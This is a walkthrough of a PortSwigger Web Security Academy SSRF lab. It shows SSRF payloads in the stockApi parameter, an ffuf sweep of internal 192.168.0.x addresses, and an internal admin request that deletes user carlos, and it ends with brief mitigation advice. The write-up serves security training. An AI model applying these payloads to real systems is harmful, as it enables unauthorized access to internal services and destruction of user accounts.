






<p align="center">
  
</p>

---

- 🎯 **Target:** SSRF Lab - Basic SSRF against another back-end system
- 🧑‍💻 **Author:** `sonyahack1`
- 📅 **Date:** 22.04.2025
- 📊 **Difficulty:** APPRENTICE
- 📁 **Category:** Web - SSRF (`Non-Blind Internal SSRF`)

---

> The `SSRF` vulnerability is contained in the `check stock` function, which sends a request to the server and then receives a response:






## 🔍 Request interception

> I intercept the request of this function to the server in `BurpSuite`:



> I use `Hackvertor` extension for easy work with request body in `url encoding`:

```bash

stockApi=<@urlencode>http://192.168.0.1:8080/product/stock/check?productId=1&storeId=1</@urlencode>

```

> From the request body it is clear that the request goes to the server at `192.168.0.1:8080`.

> I try to change the address and send to `192.168.0.2:8080`:

```bash

stockApi=<@urlencode>http://192.168.0.2:8080/product/stock/check?productId=1&storeId=1</@urlencode>

```

> Result:



> Ok. I get an error from the server. It takes too long to manually iterate over each address. I'll automate this process using the `ffuf` tool.

> I'll create a file with a request to iterate over a numeric parameter in an address:

> Example of the `ssrf_fuzz` file:
```bash

POST /product/stock HTTP/2
Host: 0a22006b0428f9448196021b00ae00f6.web-security-academy.net
Cookie: session=rz5CE7YTftsF8xCFmwV78Hr4xuxqSmG5
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a22006b0428f9448196021b00ae00f6.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: https://0a22006b0428f9448196021b00ae00f6.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http%3A%2F%2F192.168.0.FUZZ%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1

```

> Generate a file with a sequence of numbers from 1 to 255 using the `seq` tool:

```bash

seq 1 255 | sudo tee fuzz_nums.txt

```

```bash

cat fuzz_nums.txt
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16

...
...

```

> I run the enumeration via `ffuf`:

```bash

sudo ffuf -request ssrf_fuzz -w fuzz_nums.txt -mc all -ac

```
> Result:

```bash
________________________________________________

1                       [Status: 200, Size: 3, Words: 1, Lines: 1, Duration: 69ms]
234                     [Status: 404, Size: 11, Words: 2, Lines: 1, Duration: 68ms]
:: Progress: [255/255] :: Job [1/1] :: 99 req/sec :: Duration: [0:00:04] :: Errors: 0 ::

```

> request to `192.168.0.234` returned status `404` - `not found`. This means that there is something at this address, but at the current endopoint `/product/stock/check?productId=1`
> the server could not return data. I need to access the admin panel. To do this, I substitute the endpoint `/admin` using a request to `192.168.0.234`:

```bash

stockApi=<@urlencode>http://192.168.0.234:8080/admin</@urlencode>

```
> Result:



> Sending a request to delete user `Carlos`:

```bash

stockApi=<@urlencode>http://192.168.0.234:8080/admin/delete?username=carlos</@urlencode>

```

> Result:



---
## 🧠 Conclusion

> This type of web vulnerability occurs when the server does not filter input data when requested by the user. The server allows on its behalf
> to make a request to another resource or internal service and at the same time return the result of the request with all the data that a regular user should not receive.

> You can protect yourself by allowing specific requests (at a specific URL):

```python

if not url.startswith("https://api.example.com/"):
    reject()

```
> You should also block requests from outside to the local IP addresses of the system (`127.0.0.1`, `0.0.0.0`, `192.168.0.0/16` etc).
